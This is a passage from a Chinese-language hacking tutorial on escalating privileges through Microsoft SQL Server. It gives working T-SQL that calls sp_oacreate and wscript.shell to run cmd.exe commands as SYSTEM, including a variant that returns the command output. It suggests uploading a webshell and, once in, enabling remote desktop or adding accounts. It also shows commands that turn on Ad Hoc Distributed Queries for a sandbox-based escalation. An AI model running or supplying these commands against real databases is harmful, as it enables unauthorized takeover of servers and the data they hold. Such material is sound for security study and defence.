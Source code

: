 将之前执行未成功的命令，进行执行，这里需要注意，使用sp_oacreate组件提权是没有回显的，需要注意，最好的办法就是通过上传webshell后去查看文档记录，若打不开C盘(权限不够的情况下)，可以将结果文件导入到你能打开的目录下。

```mssql
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\1.txt'
```

<img src="https://s2.loli.net/2023/03/21/vZ7hoKwFJ3USXVD.png" alt="image-20230321123828838" style="zoom:50%;" />

### 查看效果

这里我们就可以查看一下，执行的效果，当然如果你能执行命令了，那么基本上提权就是system命令，确信的情况下直接就执行你想要执行的命令吧，比如开启远程桌面，添加用户等等。

![image-20230321124219385](https://s2.loli.net/2023/03/21/yhe3Tl8ngZaSp6E.png)

### 回显执行命令

这里也是找到一个大佬写的文章，可以实现回显执行命令。

[sql server提权](https://zhuanlan.zhihu.com/p/591938680)

```mssql
declare @shell int,@exec int,@text int,@str varchar(8000)
exec sp_oacreate 'wscript.shell',@shell output
exec sp_oamethod @shell,'exec',@exec output,'C:\\Windows\\System32\\cmd.exe /c whoami'
exec sp_oamethod @exec, 'StdOut', @text out
exec sp_oamethod @text, 'readall', @str out
select @str;
```

<img src="https://s2.loli.net/2023/03/21/k6xJpfYCzLXG34y.png" alt="image-20230321125101529" style="zoom:50%;" />

## 沙盒提权

沙盒模式是数据库的一种安全功能。在沙盒模式下，只对控件和字段属性中的安全且不含恶意代码的表达式求值。如果表达式不使用可能以某种方式损坏数据的函数或属性，则可认为它是安全的。利用前提需要sqlserver sysadmin账户服务器权限为system（sqlserver2019默认被降权为mssql），服务器拥有 jet.oledb.4.0  驱动。

局限性：

- Microsoft.jet.oledb.4.0一般在32位操作系统上才可以 
- Windows 2008以上 默认无  Access 数据库文件, 需要自己上传 
- sqlserver2015默认禁用Ad Hoc Distributed Queries，需要开启。

### 管理Ad Hoc Distributed Queries

```mssql
开启：
exec sp_configure 'show advanced options',1;reconfigure;
exec sp_configure 'Ad Hoc Distributed Queries',1;reconfigure;

关闭：
exec sp_configure 'show advanced options',1;reconfigure;
exec sp_configure 'Ad Hoc Distributed Queries',0;reconfigure;
```
